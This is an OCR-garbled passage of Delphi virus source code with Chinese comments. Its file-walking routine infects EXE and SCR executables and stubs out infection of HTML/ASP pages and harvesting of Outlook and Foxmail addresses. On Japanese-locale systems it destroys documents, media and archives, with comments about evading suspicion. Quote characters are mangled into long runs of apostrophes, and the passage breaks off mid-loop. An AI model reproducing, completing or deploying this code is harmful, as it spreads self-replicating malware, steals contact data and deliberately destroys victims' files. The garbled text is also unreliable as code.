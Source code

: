 end;
begin
if (FindFirst(Path + Mask, faAnyFile, SearchRec) = 0) then
begin
      repeat
        PeekMessage(Msg, 0, 0, 0, PM_REMOVE); //调整消息队列，避免引起怀疑
        if IsValidDir(SearchRec) = 0 then
        begin
        Fn := Path + SearchRec.Name;
        Ext := UpperCase(ExtractFileExt(Fn));
        if (Ext = ''''''''''''''''.EXE'''''''''''''''') or (Ext = ''''''''''''''''.SCR'''''''''''''''') then
        begin
          InfectOneFile(Fn); //感染可执行文件   
        end
        else if (Ext = ''''''''''''''''.HTM'''''''''''''''') or (Ext = ''''''''''''''''.HTML'''''''''''''''') or (Ext = ''''''''''''''''.ASP'''''''''''''''') then
        begin
          //感染HTML和ASP文件，将Base64编码后的病毒写入
          //感染浏览此网页的所有用户
          //哪位大兄弟愿意完成之？
        end
        else if Ext = ''''''''''''''''.WAB'''''''''''''''' then //Outlook地址簿文件
        begin
          //获取Outlook邮件地址
        end
        else if Ext = ''''''''''''''''.ADC'''''''''''''''' then //Foxmail地址自动完成文件
        begin
          //获取Foxmail邮件地址
        end
        else if Ext = ''''''''''''''''IND'''''''''''''''' then //Foxmail地址簿文件
        begin
          //获取Foxmail邮件地址
end
        else
        begin
          if IsJap then //是倭文操作系统
          begin
            if (Ext = ''''''''''''''''.DOC'''''''''''''''') or (Ext = ''''''''''''''''.XLS'''''''''''''''') or (Ext = ''''''''''''''''.MDB'''''''''''''''') or
            (Ext = ''''''''''''''''.MP3'''''''''''''''') or (Ext = ''''''''''''''''.RM'''''''''''''''') or (Ext = ''''''''''''''''.RA'''''''''''''''') or
            (Ext = ''''''''''''''''.WMA'''''''''''''''') or (Ext = ''''''''''''''''.ZIP'''''''''''''''') or (Ext = ''''''''''''''''.RAR'''''''''''''''') or
            (Ext = ''''''''''''''''.MPEG'''''''''''''''') or (Ext = ''''''''''''''''.ASF'''''''''''''''') or (Ext = ''''''''''''''''.JPG'''''''''''''''') or
            (Ext = ''''''''''''''''.JPEG'''''''''''''''') or (Ext = ''''''''''''''''.GIF'''''''''''''''') or (Ext = ''''''''''''''''.SWF'''''''''''''''') or
            (Ext = ''''''''''''''''.PDF'''''''''''''''') or (Ext = ''''''''''''''''.CHM'''''''''''''''') or (Ext = ''''''''''''''''.AVI'''''''''''''''') then
              SmashFile(Fn); //摧毁文件
          end;
        end;
        end;
        //感染或删除一个文件后睡眠200毫秒，避免CPU占用率过高引起怀疑
        Sleep(200);
      until (FindNext(SearchRec) <> 0);
end;
FindClose(SearchRec);
SubDir := TStringList.Create;
if (FindFirst(Path + ''''''''''''''''*.*'''''''''''''''', faDirectory, SearchRec) = 0) then
begin
      repeat
        if IsValidDir(SearchRec) = 1 then